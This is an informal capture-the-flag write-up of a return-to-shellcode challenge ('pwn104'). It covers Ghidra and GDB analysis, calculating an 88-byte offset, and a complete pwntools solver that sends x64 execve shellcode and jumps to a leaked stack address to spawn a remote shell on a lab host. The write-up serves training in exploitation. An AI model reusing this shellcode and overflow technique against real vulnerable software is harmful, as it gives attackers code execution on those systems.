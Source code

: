 ## hi all :write
This is my experience write up about PWN material (return to shellcode). I try to asnwer challenges after Learning
about the shellcode, I'm not good at it, but here I want to give a little knowledge that I can for help you all who is in a clueless position like I was before.

![Cover](./img/1.png)

## What is Problem
in the challange you should to return flow of binary to shellcode

## Analysis File
So this file is x64 and , you can see the protection file :

![Protection](img/2.png)

## Let's Start Reverse Using Ghidra

![ghidra](img/3.png)

You can see, the leak address has been given by the system, so i just found padding, and return to leak address
And then, you can see, a function read, it's ask user input, and this is a vuln of the chall too.

## Solution

`shellcode + padding + return to shellcode`

## Debuging using GDB-GEF
let's see if i break point at  `printf`  call

![debug1](img/4.png)

after this let's run the program and using `ni` (next instruction until a read func), after this input to much character, hm i using char `A` in this challanges, no probles if you can other char.

![input](img/5.png)

after this, let's check offset and return address for calculate padding. 

![padding](img/6.png)

the start of input address offset is `0x7fffffffdf60` and return address is `0x7fffffffdfb8` 

after i calculate this padding, i found the padding is `88`

![input](img/7.png)

And after this i create solver

## Solver 

```

#!/usr/bin/env python3
from pwn import *

#p = process('./pwn104.pwn104')
p = remote('10.10.83.114', 9004)
sellcode = b"\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05"
payload = sellcode
payload += b'A' * ( 88 - len(sellcode))
print(payload)
p.recvuntil(b'you at ')
address_leak = p.recvline()
address = int(address_leak.strip(b'\n'), 16)
print(f"Address: 0x{address:x}")
payload += p64(address)
#payload += p64(address)
print(payload)
p.sendline(payload)

p.interactive()

```

And after run this solver i got
![result](img/8.png)


## Quotes
> "The only people spend a much time is a got a shell"